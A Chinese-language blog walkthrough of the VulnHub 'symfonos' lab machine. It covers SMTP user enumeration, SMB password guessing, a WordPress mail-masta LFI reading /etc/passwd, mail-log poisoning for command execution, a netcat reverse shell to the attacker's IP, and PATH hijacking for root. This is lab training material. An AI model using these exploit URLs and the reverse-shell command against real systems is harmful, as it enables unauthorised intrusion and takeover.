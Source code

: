 ```yaml
---
layout: post
title:  "symfonos"
description: walkthrough
category: vulnhub
---
```

# symfonos

![image-20200629022842763]({{ site.url }}/assets/symfonos.assets/image-20200629022842763.png)

![image-20200629023013915]({{ site.url }}/assets/symfonos.assets/image-20200629023013915.png)

![image-20200629023529071]({{ site.url }}/assets/symfonos.assets/image-20200629023529071.png)

25邮件服务验证用户

![image-20200629023757731]({{ site.url }}/assets/symfonos.assets/image-20200629023757731.png)

![image-20200629024527515]({{ site.url }}/assets/symfonos.assets/image-20200629024527515.png)

![image-20200629023931759]({{ site.url }}/assets/symfonos.assets/image-20200629023931759.png)

![image-20200629024006390]({{ site.url }}/assets/symfonos.assets/image-20200629024006390.png)

使用这三个密码分别尝试登录helios

```bash
smbclient --user=helios //192.168.43.3/helios
```

最后密码是第二个`qwerty`

![image-20200629030157047]({{ site.url }}/assets/symfonos.assets/image-20200629030157047.png)

![image-20200629030303698]({{ site.url }}/assets/symfonos.assets/image-20200629030303698.png)

页面刷新非常慢，源码中显示了域名，先加入hosts

![image-20200629030703335]({{ site.url }}/assets/symfonos.assets/image-20200629030703335.png)

![image-20200629030817862]({{ site.url }}/assets/symfonos.assets/image-20200629030817862.png)

一个wordpress，同时显示了admin用户

![image-20200629031016582]({{ site.url }}/assets/symfonos.assets/image-20200629031016582.png)

wpscan

```bash
wpscan --url http://symfonos.local/h3l105/ -e ap,vt,cb,u --force
```



![image-20200629033105259]({{ site.url }}/assets/symfonos.assets/image-20200629033105259.png)

查询漏洞存在LFI

![image-20200629034050072]({{ site.url }}/assets/symfonos.assets/image-20200629034050072.png)

![image-20200629034118841]({{ site.url }}/assets/symfonos.assets/image-20200629034118841.png)

验证

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![image-20200629033615207]({{ site.url }}/assets/symfonos.assets/image-20200629033615207.png)



我们可以通过为我们已知的邮件用户名进行smtp邮件日志投毒。

首先验证是否能成功包含邮件日志

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios
```

![image-20200629034542641]({{ site.url }}/assets/symfonos.assets/image-20200629034542641.png)

成功，下面我们通过给helios发送插入cmd shell的恶意php语句，来对邮件日志进行投毒

![image-20200629035108611]({{ site.url }}/assets/symfonos.assets/image-20200629035108611.png)

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id
```

![image-20200629035610736]({{ site.url }}/assets/symfonos.assets/image-20200629035610736.png)

成功，现在把webshell转为rshell,在kali端1337端口设立监听。webshell执行

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc -e /bin/bash 192.168.43.66 1337
```

![image-20200629040250652]({{ site.url }}/assets/symfonos.assets/image-20200629040250652.png)

sudo -l 没有，查找suid

![image-20200629040401926]({{ site.url }}/assets/symfonos.assets/image-20200629040401926.png)

opt中应该是后安装的，检查文件

![image-20200629040609972]({{ site.url }}/assets/symfonos.assets/image-20200629040609972.png)

看上去调用了curl，我们来伪造curl程序，然后改变环境变量，执行，root

![image-20200629041111748]({{ site.url }}/assets/symfonos.assets/image-20200629041111748.png)

